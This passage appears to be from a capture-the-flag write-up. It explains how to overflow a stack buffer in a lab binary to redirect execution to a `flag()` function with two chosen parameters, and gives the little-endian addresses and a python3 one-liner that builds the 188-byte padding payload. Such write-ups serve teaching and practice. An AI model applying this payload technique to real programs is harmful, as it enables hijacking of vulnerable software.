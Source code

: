 <figure><img src="../../.gitbook/assets/Untitled 21 (9).png" alt=""><figcaption></figcaption></figure>

So we have got all the necessary details to generate a input that overwrites the Instruction Pointer with the call for the `flag()` function. Now we can construct the input:

{% hint style="info" %}
Note: We have to provide the memory address values in the input in [Little-Endian Format](https://www.section.io/engineering-education/what-is-little-endian-and-big-endian/)
{% endhint %}

| Name/Function | Memory Address | Little Endian Fromat |
| ------------- | -------------- | -------------------- |
| flag()        | 0x080491e2     | \xe2\x91\x04\x08     |
| param1        | 0xdeadbeef     | \xef\xbe\xad\xde     |
| param2        | 0xc0ded00d     | \x0d\xd0\xde\xc0     |

```bash
python3 -c "import sys; sys.stdout.buffer.write(b'A'*188+b'\xe2\x91\x04\x08' + b'PADD' + b'\xef\xbe\xad\xde\x0d\xd0\xde\xc0')"
// Here I have used sys.stdout.buffer.write instead of print because 
// we are giving the input in bytes.
// Here I have used b'PADD' to add padding. Make sure to add this
// \x is used to mention that it is hexadecimal
```

<figure><img src="../../.gitbook/assets/Untitled 22 (8).png" alt=""><figcaption></figcaption></figure>
